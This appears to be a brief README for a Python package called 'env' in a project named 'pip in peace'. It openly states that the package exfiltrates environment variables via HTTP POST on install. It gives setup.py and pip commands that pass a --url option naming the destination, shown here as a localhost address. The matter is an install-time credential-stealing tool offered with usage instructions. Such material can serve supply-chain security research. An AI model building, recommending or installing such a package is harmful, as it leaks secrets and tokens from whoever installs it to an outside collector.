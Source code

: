 pip in peace - env
==================

The env package exfiltrates environment variables via HTTP POST request. Currently requires requests to be installed, but I'm too lazy to write it in urllib currently.

setup.py
--------

```
    python3 setup.py install --url=http://127.0.0.1:12345
```

pip
---

```
    pip3 install . --install-option='--url=http://127.0.0.1:12345'
```
